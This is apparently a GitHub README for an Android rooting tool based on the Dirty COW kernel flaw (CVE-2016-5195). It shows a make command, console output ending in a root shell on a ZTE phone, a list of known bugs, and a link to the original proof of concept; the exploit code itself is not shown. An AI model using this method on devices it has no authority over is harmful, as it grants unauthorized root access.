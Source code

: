 # DirtyCowAndroid
Repo For Working on Dirty Cow Based Android Root Method    
Currently Linux Only    
Youtube: https://www.youtube.com/watch?v=bzrRWfDOQcM  
    
Should Spawn a root shell on device  
Usage sudo make root  
Output:  
[*] mmap 0xb6f00000  
[*] exploit (patch)  
[*] currently 0xb6f00000=464c457f  
[*] madvise = 0xb6f00000 13708  
[*] madvise = 0 1048576  
[*] /proc/self/mem 0 1048576  
[*] exploited 0xb6f00000=464c457f  
adb shell /system/bin/run-as  
running as uid 2000  
uid 0  
root@ZTE-V811:/ #
  
##Bugs / Problems  
1)  
  System Will Hang If You Exec a command on spawned shell  
  Temp Fix: Exit Back to Terminal and type  
  1) adb shell  
  2) run-as  
  Going adb shell run-as will produce the hang  
2) 
  Android 5 (Samsung Galaxy S4)  
  setresgid/setresuid failed
3) Incompatible with devices with system partitions made read-only by the _hardware_, such as the DigiLand DL718M and other supercheap devices. 
Oringal PoC Code: https://github.com/timwr/CVE-2016-5195
